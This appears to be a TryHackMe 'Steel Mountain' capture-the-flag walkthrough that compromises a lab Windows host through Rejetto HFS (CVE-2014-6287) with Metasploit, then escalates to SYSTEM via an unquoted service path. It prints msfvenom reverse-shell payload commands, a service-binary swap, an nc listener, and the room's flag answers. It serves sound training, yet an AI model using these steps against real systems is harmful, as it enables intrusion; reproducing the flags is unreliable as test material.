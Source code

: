 # [Steel Mountain - TryHackMe](https://tryhackme.com/room/steelmountain) | Cyanyde

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

## Credits

- Room created by [tryhackme](https://tryhackme.com/p/tryhackme)
- Room type: Premium

## Initial Access

### Scan the machine with nmap. What is the other port running a web server on?

- `nmap -sV -p- -T5 \<target ip>`
    - *-sV* flag returns service versions
    - *-p-* scans all ports
    - *-T5* increases scan timing agressiveness

```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http               HttpFileServer httpd 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49188/tcp open  msrpc              Microsoft Windows RPC
49189/tcp open  msrpc              Microsoft Windows RPC
```

> The non-standard port running a web server is port **8080**

### Take a look at the other web server. What file server is running?

> A quick web search shows that HttpFileServer httpd 2.3 is a version of **Rejetto HTTP File Server**

### What is the CVE number to exploit this file server?

> ExploitDB listing from searching for "rejetto http file server vulnerability": https://www.exploit-db.com/exploits/39161 | CVE-**2014-6287**

### Use Metasploit to get an initial shell. What is the user flag?

- `msfconsole` to start Metasploit and `search cve-2014-6287` to find module listed on ExploitDB
- `use 0` or `use exploit/windows/http/rejetto_hfs_exec` to select exploit
- `set RHOSTS <target ip>` and `set RPORT 8080` to point the exploit at the second web server on the target machine and `exploit`

> <details><summary>When connected to the target via meterpreter shell, <code>cat C:/Users/bill/Desktop/user.txt</code> to get the flag: </summary>b04763b6fcf51fcd7c13abc7db4fd365</details>

## Privilege Escalation

- Use the [provided tool](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) to enumerate system
    - *curl* or *wget* the file to attack machine
    - Use `upload` in meterpreter shell to transfer file to target machine

### Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

- Run `PowerUp.ps1` then use the `Invoke-AllChecks` cmdlet

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

> The service that shows up is **AdvancedSystemCareService9**

### What is the root flag?

- The *PowerUp* scan results show that the service can be restarted, and the path can be edited
- Generate shellcode to replace legitimate binary
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.201.67.109 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`
- Kill the powershell channel with *ctrl+c*
- Use <code>upload *local path to*\ASCService.exe</code> in meterpreter shell
- `shell` to drop into cmd shell
- Kill and replace existing service
    - `sc stop AdvancedSystemCareService9` to kill service
    - `copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"` and confirm replacement of the original ASCService.exe
- Set up listener on attacker machine
    - `nc -lvnp 4443`
- Start malicious process on target machine
    - `sc start AdvancedSystemCareService9`
- Restarting the service on target machine should send a reverse shell to the port specified in the malicious ASCService.exe
- Within the reverse shell, find and print the root flag
    - `whoami` to confirm SYSTEM status
    - `dir /s root.txt` to locate the flag file
    - cd `C:\Users\Administrator\Desktop` and `type root.txt` to get the flag

> <details><summary>The root flag of this machine is </summary>9af5f314f57607c00fd09803a587db80</details>

## Access and Escalation without Metasploit

- Use [this](https://www.exploit-db.com/exploits/49125) exploit
- Syntax: `python3 exploit.py RHOST RPORT command`
- Create reverse shell with msfvenom
    - `msfvenom -p windows/shell_reverse_tcp LHOST=<target machine> LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1`

